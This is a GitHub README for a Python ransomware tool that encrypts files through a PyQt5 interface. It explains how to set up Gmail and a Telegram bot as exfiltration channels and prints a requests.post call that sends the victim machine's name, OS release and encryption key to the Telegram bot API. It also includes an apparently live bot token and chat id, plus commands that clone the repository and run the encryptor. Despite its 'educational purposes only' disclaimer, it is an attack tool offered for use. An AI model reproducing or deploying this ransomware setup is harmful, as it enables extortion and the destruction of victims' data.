


<h1 align='center'>Python Ransomware</h1>
<p align='center'>Simple Ransomware using Python PyQt5 and Cryptography libraries.
You can make the design you want using the design files.</p>


## Screenshot
<p align='center'>
    
</p>
<p align='center'>
    
</p>


## YouTube Video
[](https://www.youtube.com/watch?v=wGwfdWkOal4 "Python File Management")

## Getting Started

# Requirements
You can install the Requirements by running the command:

```
pip install -r requirements.txt
```

```
certifi==2021.5.30
cffi==1.14.6
charset-normalizer==2.0.6
cryptography==35.0.0
idna==3.2
pycparser==2.20
PyQt5==5.15.4
PyQt5-Qt5==5.15.2
PyQt5-sip==12.9.0
requests==2.26.0
urllib3==1.26.7
```
<hr>

## Attention ⚠️
These scripts contain stuff that can get you in trouble. This is for educational purposes only. Do not abuse.

### Operating Instructions

#### 1) Send Email
to be able to send an email<br/>

>1)open your gmail account<br/>
>2)go https://myaccount.google.com/<br/>
>3)Activate "Less secure app access"<br/>
[](https://www.youtube.com/watch?v=FVi-m1qmJD0 "Send Email]")


#### 2) Send Telegram (api) Message
Telegram api    (https://core.telegram.org/bots/api)<br/>

>1)open telegram<br/>
>2)search BotFather<br/>
>3)/newbot<br/>
>4)Choose a username for your bot (ransom0wareusername_bot)<br/>

    Use this token to access the HTTP API:
    3416572059:AAGB7p9WAe0jWamE89ftR02MR2WgbxlLZEg

Chat Id<br/>

>1)search Json Dump Bot<br/>
>2)/start<br/>
>3)telegramapi<br/>

    "from": {
        "id": 3213112048, your chat_id

    Send Message Example:

        requests.post("https://api.telegram.org/bot3416572059:AAGB7p9WAe0jWamE89ftR02MR2WgbxlLZEg/sendMessage",
                data={"chat_id": "3213112048", "text": f"Node: {node} Release: {release} \nKey: {str(key)}"})

        requests.post("https://api.telegram.org/bot<your_telegram_api>/sendMessage",
                data={"chat_id": "<your_telegram_chat_id>", "text": f"Node: {node} Release: {release} \nKey: {str(key)}"})


# Installation

```sh
$ git clone https://github.com/alii76tt/python_ransomware
$ cd python_ransomware
$ pip install -r requirements.txt
$ cd Encrypt
$ python3 encrypt.py
$ cd Decrypt
$ python3 decrypt.py
```
